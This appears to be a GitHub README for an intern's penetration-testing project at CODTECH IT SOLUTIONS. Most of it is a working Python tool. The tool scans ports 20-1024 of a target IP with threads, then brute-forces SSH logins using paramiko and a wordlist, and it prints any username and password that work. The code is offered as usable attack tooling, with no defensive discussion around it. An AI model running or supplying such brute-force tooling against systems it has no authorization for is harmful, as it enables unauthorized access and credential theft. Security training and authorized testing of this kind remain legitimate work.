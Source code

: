 import socket
import threading
import paramiko
import tkinter as tk
from tkinter import filedialog, messagebox

def port_scan(target, ports):
    print(f"[*] Scanning {target}...")
    for port in ports:
        t = threading.Thread(target=scan_port, args=(target, port))
        t.start()

def scan_port(target, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        s.connect((target, port))
        print(f"[+] Port {port} is open")
        s.close()
    except:
        pass

def ssh_brute_force(target, username, password_list):
    print("[*] Starting SSH brute force...")
    for password in password_list:
        if try_ssh_login(target, username, password.strip()):
            print(f"[+] Valid credentials found: {username}:{password}")
            break

def try_ssh_login(target, username, password):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(target, username=username, password=password, timeout=3)
        client.close()
        return True
    except:
        return False

def load_wordlist():
    file_path = filedialog.askopenfilename(title="Select Wordlist", filetypes=[("Text Files", "*.txt")])
    if file_path:
        with open(file_path, "r") as f:
            passwords = f.readlines()
        messagebox.showinfo("Wordlist Loaded", f"Loaded {len(passwords)} passwords from {file_path}")
        return passwords
    return []

if __name__ == "__main__":
    root = tk.Tk()
    root.withdraw()
    
    target_ip = input("Enter target IP: ")
    ports = list(range(20, 1025))  # Scans ports 20-1024
    
    # Run Port Scanner
    port_scan(target_ip, ports)
    
    # SSH Brute Forcing
    ssh_user = input("Enter SSH username: ")
    passwords = load_wordlist()
    if passwords:
        ssh_brute_force(target_ip, ssh_user, passwords)










# penetration-testing
**company**:CODTECH IT SOLUTIONS
**NAME**:Mayank
**INTERN ID**:CT12JMA
**domain**:cyber-security
**Batch duration**:january 5,2025 to march 5,2025
**mentor name**:neela santhosh
